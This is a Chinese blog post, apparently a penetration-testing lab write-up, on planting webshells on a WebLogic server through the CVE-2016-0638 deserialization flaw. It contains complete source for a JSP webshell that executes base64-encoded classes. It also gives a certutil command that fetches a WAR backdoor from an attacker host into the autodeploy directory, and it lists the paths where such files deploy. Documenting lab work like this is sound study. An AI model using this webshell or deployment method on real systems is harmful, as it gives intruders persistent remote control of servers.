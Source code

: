 ```yaml
---
title: Weblogic 写入webshell
date: 2025-10-08 16:56:47
permalink: /pages/weblogicshell/
categories:
  - 渗透
tags:
  - Weblogic
author: 
  name: the0n3
  link: https://the0n3.top
---
```


在打靶过程发现一台Windows Weblogic服务器，存在CVE-2016-0638 反序列化漏洞，可以任意命令执行，在想怎么写入webshell，webshell客户端连接方便利用

<!-- more -->

这篇文章只探究了autodeploy目录下的webshell写入，可能存在其他目录部署webshell，本文不做介绍

## 环境

WebLogic Server 版本: 12.1.3.0.0

jdk 版本：1.8.0_202

## RCE利用挖掘

通过weblogic综合利用工具直接在命令执行的工作目录`C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain`上传webshell，不会解析

![](/medias/weblogic-shell/1.png)

## autodeploy目录


拷打哈基米后发现，这个工作目录下的`autodeploy`目录可以自动部署war包，在这个目录上传war包可以解析jsp webshell

这个工具好像只能直接写入jsp内容，没有上传文件的功能

![](/medias/weblogic-shell/2.png)

### 创建目录

尝试命令执行先在`autodeploy`目录下创建一个目录，再把jsp webshell写入这个目录下，成功解析

```bash
mkdir autodeploy\hello
```

在绝对路径`C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\autodeploy\hello\hello.jsp`写入简单jsp

![](/medias/weblogic-shell/3.png)

成功解析jsp

![](/medias/weblogic-shell/4.png)

创建`autodeploy\shell`写入蚁剑webshell shell.jsp

```java
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

![](/medias/weblogic-shell/5.png)

蚁剑连接

![](/medias/weblogic-shell/6.png)

![](/medias/weblogic-shell/7.png)

直接在`autodeploy`目录下创建jsp webshell不会解析，需要有一层文件夹

![](/medias/weblogic-shell/8.png)


### 上传war文件

在autodeploy目录下有readme.txt，介绍了`EAR`、`WAR`、`RAR`这些文件类型

![](/medias/weblogic-shell/9.png)

测试war格式1/1.jsp

![](/medias/weblogic-shell/10.png)

![](/medias/weblogic-shell/11.png)

![](/medias/weblogic-shell/12.png)


测试rar格式2/2.jsp，解析失败404

![](/medias/weblogic-shell/13.png)

拷打哈基米，weblogic允许的rar格式并不是常用的压缩rar格式，所以失败了

![](/medias/weblogic-shell/14.png)

### 远程下载war文件

既然这个工具可用任意命令执行，执行下载远程攻击机制作好的webshell war文件到指定的autodeploy目录下，也可以正常解析

```bash
certutil -urlcache -split -f http://192.168.20.10/shell.war C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\autodeploy\shell.war
```

## 总结

总结weblogic可用的写入webshell方式

- autodeploy/shell/shell.jsp
- autodeploy/shell.war
- 远程下载war文件到autodeploy目录下

参考：

- [记一次曲折的weblogic上传webshell](https://chaserw.github.io/2021/11/05/%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9B%B2%E6%8A%98%E7%9A%84weblogic%E4%B8%8A%E4%BC%A0webshell/)